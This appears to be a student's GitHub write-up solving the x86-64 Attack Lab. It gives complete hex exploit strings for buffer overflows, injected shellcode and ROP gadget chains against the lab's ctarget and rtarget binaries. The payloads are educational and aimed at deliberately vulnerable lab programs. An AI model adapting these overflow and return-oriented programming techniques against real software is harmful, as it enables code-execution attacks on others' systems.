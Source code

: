 # Attack Lab
This is an x86-64 attack lab for self-study students.

I also document what I had to do to solve this lab.

## Tools
- GDB
- objdump
- GCC

## Phase 1
This is a simple buffer overflow exploit. You can see the dump of the ctarget binary [here](./dump_ctarget.txt). We need to exploit the vulnerability in [getbuf](./dump_ctarget.txt#L777). The first instruction is the key here. `sub $0x28,%rsp` means we will need to provide 40 bytes before we can modify the return address located in the stack. In the 40th byte, we will give the address of the function [touch1](./dump_ctarget.txt#L787) in little endian format (`c0 17 40 00 00 00 00 00`). Hence, we get the following answer:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

## Phase 2
Similar to phase 1 except we need to add the instruction to store our cookie in register `%rdi`. We need to execute few instructions before we transfer control to touch2. For this, we will need the 40-47 bytes to contain the address pointing back into the stack that stores the *buffer* (0-39 bytes from getbuf). The buffer will be modified in such a way that it will update the value of register `%rdi` (the first argument to the function), and then hand over the control to touch2. To get to the function touch2, we will use the `retq` instruction. Recall that `retq` pops the value from the stack and into the register `%rip` (register which holds the memory address to the next instruction to execute). This means we will have to push the address of touch2 into our stack. This push will modify the return address located in our stack (bytes 40-47), which will allow our exploit to safely transfer the control. The instructions we will execute will look like this:
```asm
0:	68 ec 17 40 00       	pushq  $0x4017ec           /* Push address of touch2 to stack  */
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi    /* Move cookie to register %rdi */
c:	c3                   	retq   
d:	90                   	nop
e:	90                   	nop
f:	90                   	nop
```

Our answer will then, look like this:
```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 90 90 90
ec 17 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3
This one is also pretty simple. We need to call touch3 and store the address of our cookie string in register `%rdi`. The challenge we face are the various instructions that will overwrite our stack. Hence, we need to store the string representation of our cookie on an address which will not get overwritten. Notice how the `pushq` instruction we use in our execution code pushes data on address `0x5561dca0`. This means, all the future pushes to the stack will be on addresses starting from `0x5561dca0` and onwards. Therefore, we will store our string in the stack on address `0x5561dca8`. Our execution code will look like this:
```asm
0:	68 fa 18 40 00       	pushq  $0x4018fa
5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c:	c3                   	retq
```

Solution:
```
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 /* String representation of our cookie */
```

## Phase 4
This is a very easy phase. We just need to find byte sequences in the gadget farm provided to us. We may not be able to make the target execute our code, but we can still modify the stack and add our data to it. Firstly, we will still overflow our buffer of 40 bytes, and overwrite the return address. Secondly, we need to fill our stack with addresses and data that will make the program execute the exploit similar to phase 2. The hints and constraints in the lab's reading helped me narrow down on what byte sequences I am looking for.

The `popq` instruction is very useful to us here. It will pop the value from the stack and into the register of our choosing. This means, we can store our cookie in the stack and pop it to a register.

(Note that the text for phase 4 below are made with reference to the [disassembly of rtarget binary file](./dump_rtarget.txt))

I wasn't able to find the byte `5f` (pop stack data to register `%rdi`) in the gadget farm, so I settled with the byte `58` (pop stack data to register `%rax`). Luckily, I was able to find the byte sequence for the instruction `movq %rax,%rdi` in the gadget farm. Otherwise, I would have had to look for an alternative to `58`.

With this information, we can create our solution string:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction popq %rax */
fa 97 b9 59 00 00 00 00 /* Our cookie */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* Address of touch2 */
```

## Phase 5
Pretty simple but long phase. As the hint suggests, we really only need 8 gadgets to complete this.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction popq %rax */
20 00 00 00 00 00 00 00 /* Hex number 0x20 */
dd 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movl %eax,%edx */
34 1a 40 00 00 00 00 00 /* Address of byte sequence for the instruction movl %edx,%ecx */
13 1a 40 00 00 00 00 00 /* Address of byte sequence for the instruction movl %ecx,%esi */
06 1a 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rsp,%rax */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
d6 19 40 00 00 00 00 00 /* Address of add_xy */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
fa 18 40 00 00 00 00 00 /* Address of touch3 */
35 39 62 39 39 37 66 61 /* String representation of our cookie */
```
